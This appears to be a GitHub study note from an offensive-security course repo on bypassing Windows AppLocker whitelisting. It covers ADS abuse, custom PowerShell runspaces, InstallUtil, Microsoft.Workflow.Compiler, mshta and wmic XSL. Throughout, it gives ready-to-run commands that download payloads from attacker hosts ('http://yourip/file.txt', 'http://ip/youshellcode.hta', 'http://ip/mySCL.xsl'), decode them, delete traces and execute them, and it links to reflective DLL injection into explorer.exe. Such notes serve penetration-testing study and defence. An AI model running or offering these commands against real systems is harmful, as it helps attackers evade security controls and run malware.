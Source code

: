 ## Application Whitelisting Theory
 Application whitelisting software uses a custom driver to register a callback function through this PsSetCreateProcessNotifyRoutineEx API. The callback is invoked every time a new process is created and detemine whether or not an application is whitelisted. Microsoft has multiple native application whitelisting soultions.  AppLocker was introduced in Win7 and avaiable in Win10.
 
 AppLocker includes kernel-mode driver APPID.SYS and the APPIDSVC user-mode service. APPIDSVC manages the whitelisting ruleset and identifies applications when they are run based on the callback notifications from APPID.SYS.
 
 AppLocker has 3 rule categories:
 - 1.Based on FilePath
 - 2.Based on file hash(SHA256)
 - 3.Based on digital signature

 You can access AppLocker in command prompt -> gpedit.msc(GPO configuration manager)->Local Computer Policy -> Computer
Configuration -> Windows Settings -> Security Settings -> Application Control Policies->AppLocker. There will be 4 rule propertites for 4 separate file types
- 1 .exe executable files
- 2 .msi Windows Installer files
- 3 .powershell , jscript, VB, .cmd and .bat native script files
- 4 Packaged Apps from Microsoft App Store
 
 Group Policy, AppLocker violation can be review in Windows event log. eventvwr->Applications and Services Logs -> Microsoft -> Windows -> AppLocker
 
 ## Basic Bypasses
- 1.Check permission for default rules for AppLocker whitelist all executables and scripts located in C:\Program Files, C:\Program Files (x86), and C:\Windows
- 2.Identify writable floder by a user using [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk). -u supress error, -w writable directories, -s recurese search.
```
C:\users\mst>accesschk.exe "mst" C:\Windows -wus
```
icacls can tell is a folder path is executable 
```
C:\users\mst>icacls.exe C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
```
- 3.The default ruleset doesn’t protect against loading arbitrary DLLs. If we were to create an unmanaged DLL, we would be able to load it and trigger exported APIs to gain
arbitrary code execution.
- 4.Alternate Date Steams is a binary file attribute that contains metadata. We can append binary data if additional streams to the original file. If we can find a file that a current user can write and execute. The below code append test.js to a log file. And we can execute it.
```
C:\Users\mst>type test.js > "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"

C:\Users\mst>wscript "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```
- 5.Third Party Execution. If a third-party scripting engine like Python or Perl is installed, we could use it to very easily bypass application whitelisting.
```
C:\Users\mst>python test.py
```
## Bypass AppLocker with Powershell
Powershell Language Mode: 
- 1.FullLanguage, allows all cmdlets and the entire .NET framework as well as C# code execution.
- 2.RestrictedLanguage, allowing default cmdlets but heavily restricting much else
- 3.NoLanguage disallows all script text

ConstrainedLanguage mode (CLM) with PowerShell version 3.0, allow scripts that are located in whitelisted locations or otherwise comply with a whitelisting rule can execute with full functionality. The most significant limiation excludes calls to the .NET framework, execution of C# code and reflection.

```
PS C:\Users\mst> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```
#### Bypass Constrained language mode(CLM) with custom runsapces
Powershell call **System.Management.Automation.dll** to create runspace. This measns, we can write c# [powershellrunnerSpace.cs](/06ApplicationWhitelistingBypass/powershellrunnerSpace.cs) to creates a custom PowerShell runsapce and executes our script inside it. 

The above bypass the powershell execution, but if the AppBlocker pervent custom c# execution, our TTPs will not work. We can leverage native Windows application **InstallUtil**.
This command allows us to install and uninstall server resources by executing the installer components in a specified assembly. We are going to user uninstall method because install method reuqired admin privileges.

We can write [installer.cs](/06ApplicationWhitelistingBypass/Installer.cs) script and compile to our bypass.exe. Once compiled, we can use native windows commands to transfer our file from attack machine to target machine and exuecte it with InstallUtil command.

First, we can encode our exe on our attack machine, host the encoded file

```
C:\Users\mst>certutil -encode C:\Users\mst\Bypass.exe file.txt
```

Second trafer the file to target, decode and execute, and remove encoded file
```
C:\Users\target>bitsadmin /Transfer myJob http://yourip/file.txt C:\users\target\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\target\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= LogToConsole=false /U C:\users\target\Bypass.exe
```
Now we have a bypass method, we will update our Installer.cs to [InsallerShell.cs](/06ApplicationWhitelistingBypass/InstallerShell.cs) which use [Invoke-ReflectivePEInjection PowerShell](/03ProcessInjectionMigration/Invoke-ReflectivePEInjection.ps1) to inject a dll into explorer.exe

## Bypass AppLocker with C# via whitelisted application
The ultimate goal is to execute arbitrary C# code via a whitelisted application. It means target application must either accept a pre-compiled executable as an argument and load it into memory or compile it itself. The application must load unsigned managed code into memory. This is typically done through APIs like Load,457 LoadFile458 or LoadFrom.

- 1.We must reverse enginner assemblies which reside in whitelisted locations in search of the code segments that either load precompiled managed code or use source code
which is compiled as part of the processing.
- 2.We will use [dnSpy](https://github.com/dnSpy/dnSpy.git) to reverse engineering System.Workflow.ComponentModel.dll located in C:\Windows\Microsoft.NET\Framework64\v4.0.30319
- 3.We will follow security researcher Matt Graeber's [rbitrary, Unsigned Code Execution Vector in Microsoft.Workflow.Compiler.exe](https://posts.specterops.io/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb) blog for reverse engineering.
- 4.In summary, we must craft a file containing C# [Compilerbypass.cs](/06ApplicationWhitelistingBypass/Compilerbypass.cs) code, which implements a class that inherits from the Activity class and has a constructor. The file path must be inserted into the XML document along with compiler parameters organized in a serialized format using [Convertoxml.ps1](/06ApplicationWhitelistingBypass/Convertoxml.ps1) script. 
- 5.run the executable with the two input arguments, the second argument can be anything, the first argument is the output from Convertoxml.ps1 script

```
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml results.xml
```
## Bypass AppLocker with JScript
#### Bypass with MSHTA
Microsoft HTML Applications (MSHTA) excute .hta files with native mshta.exe. Since mshta.exe is located in C:\Windows\System32 and is a signed Microsoft application, it is
commonly whitelisted. We can execute our Jscript code with mshta.exe instead of wscript.exe to bypass application whitelisting. This is an [example Jscript code](/06ApplicationWhitelistingBypass/hiddentJscript.hta) embedded inside of HTA file.

We can create a short-cut to execute our hta script too. In user Desktop -> New -> Shorcut -> ```C:\Windows\System32\mshta.exe http://ip/youshellcode.hta```

####Running Jscript with XSL Transform
When we can bypass AppLocker through XSL transfomation. XSL transformation specification allows execution of embedded Jscript code when
processing the supplied XML document. We can craft a malicious XSL [mySCL.xsl](/06ApplicationWhitelistingBypass/mySCL.xsl) document and host it.

Run the following code on target machine

```
wmic process get brief /format:"http://ip/mySCL.xsl"
```

